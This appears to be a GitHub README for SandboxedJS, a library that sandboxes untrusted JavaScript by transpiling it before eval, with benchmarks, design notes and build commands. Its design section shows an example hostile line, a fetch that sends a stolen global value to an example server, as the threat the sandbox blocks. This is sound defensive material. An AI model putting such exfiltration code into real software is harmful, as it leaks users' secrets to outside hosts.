 # SandboxedJS

Sandbox untrusted/arbitrary JavaScript code and safely execute it in isolation.


## Performance

Run `npm run benchmark` to benchmark SandboxedJS's `saveEval` against a native js `eval`. Currently most benchmarks comparisons show SandboxedJS is **~2x** slower than native JS. However, if you don't count the time required to transpile the code, execution time is only **~1.3x to ~1.6x** slower than native JS.

Keep in mind that performance will likely degrade as other JS features are supported (i.e. prototype lookups).

## Status

Under active development. Looking for others to help out!


## Comparison of JS in JS Implementations

| Name | Link | Performance |
| ----------- | ----------- | --------- |
| SandboxedJS |  | ~2x slower than native? |
| js.js | https://github.com/jterrace/js.js/ | [~200x slower than native]()https://github.com/jterrace/js.js/#status |
| JS-Interpreter | https://github.com/NeilFraser/JS-Interpreter/ | [~200x slower than native](https://github.com/NeilFraser/JS-Interpreter/issues/227) |


## Design

Let's say we want to sandbox the following untrusted JS code:

```js
fetch("https://api.example.com?stolenSecret=" + window.globalValue);
```

In this example, the untrusted code is attempting to grab a global value it should NOT have access to and pass the value to its server. If this code was naively run with `eval`, the host environment would be compromised.

To make untrusted JS code safe to run, SandboxedJS rewrites the untrusted code using a JS-to-JS transpilation step. Then it is safe to run `eval` on the transpiled js code. The resulting transpiled code of the above example might look something as follows:

```js
sContext.sLookUp("fetch").sCall([
  SBinaryOps.sBinaryAdd(
    new SStringValue("https://api.example.com?stolenSecret="),
    sContext.sLookUp("window").sLookUp("globalValue")
  )
])
```

Note, the "s" prefix is short for "sandboxed".

To produce this code, SandboxedJS uses [acorn](https://github.com/acornjs/acorn) to produce an AST of the untrusted JS. It then walks the entire AST and emits each piece of the tree in the format above.

## Running Locally

Install deps: `npm i`

Run benchmarks: `npm run benchmark`

Run tests: `npm test`

Build to `lib` folder: `npm run build`

## Unique Features

 - Add metadata to any JS value which is invisible to the client (untrusted) JS code but visible to the host environment.

